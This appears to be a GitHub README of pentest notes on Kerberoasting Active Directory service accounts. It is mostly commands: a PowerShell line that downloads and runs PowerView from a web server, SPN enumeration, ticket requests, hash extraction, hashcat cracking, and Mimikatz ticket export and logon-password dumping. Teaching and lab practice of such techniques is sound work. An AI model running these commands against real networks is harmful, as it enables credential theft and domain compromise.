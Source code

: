 # Attacking Kerberos

Port 88 is usually associated with Kerberos, port 389 with LDAP. Presence of these open ports indicates that the target could be a Domain Controller.

*Target:* Active Directory accounts that have the SPN value set

## Without Mimikatz

1. Read and understand [Kerberos Fundamentals](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
2. Download [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1) and [upload it to Windows machine](../file_transfer_smbserver/README.md)
3. Import `powerview.ps1` into memory

        powershell
        IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

4. Enumerate **domain accounts** that have SPN (Service Principal Name) set, i.e., look for **user-generated** service accounts
   1. [GetUserSPNS.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)
   2. [Find-PSServiceAccounts.ps1](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts)
   3. [PowerView’s "Get-NetUser -SPN"](https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089)
   4. Windows built-in utility **setspn.exe**

            setspn.exe -F -Q */* > Service.txt

5. Request **Kerberos tickets** for the identified service accounts using following **PowerShell** commands

        Add-Type -AssemblyName System.IdentityModel
        New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList “Replace_With_SPN_Name”

6. List all the available cached tickets

        klist

7. Install the [RiskySPNs](https://github.com/cyberark/RiskySPN) PowerShell module, and obtain the user hash

        Import-Module -Name .\RiskySPNs.psm1 -verbose 
        Invoke-Kerberoast | Select-Object Hash | Out-File -filepath HashCapture.txt

8. Download and import [autokerberoast_noMimikatz.ps1](https://github.com/xan7r/kerberoast/blob/master/autokerberoast_noMimikatz.ps1) PowerShell script
9.  Display the extracted tickets in **hashcat compatible** format
  
        Invoke-AutoKerberoast

10. Use [hashcat](https://hashcat.net/hashcat/) to crack the password

        hashcat -a 0 -m 13100 ./hash.txt /home/kali/Documents/lab/wordlist/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force 

## With Mimikatz

1. Use **Mimikatz** to extract tickets from memory

        .\mimikatz.exe
        standard::base64
        kerberos::list /export

2. Begin offline password cracking
   1. [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
   2. [kirbi2john.py](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/kirbi2john.py)

3. [Impersonate user](https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/)
4. Use the `sekurlsa` command to extract **logon passwords**

        ./mimikatz.exe
        sekurlsa::logonpasswords

## References

* https://cobalt.io/blog/kerberoast-attack-techniques
* https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
* http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats
* https://pentestlab.blog/2018/06/04/spn-discovery/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/cyberark/RiskySPN
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
* https://adsecurity.org/?page_id=1821
* https://cobalt.io/blog/kerberoast-attack-techniques
* https://malicious.link/post/2016/kerberoast-pt3/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/nidem/kerberoast
* [Extracting the Ticket](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting#extracting-the-ticket)
* https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/
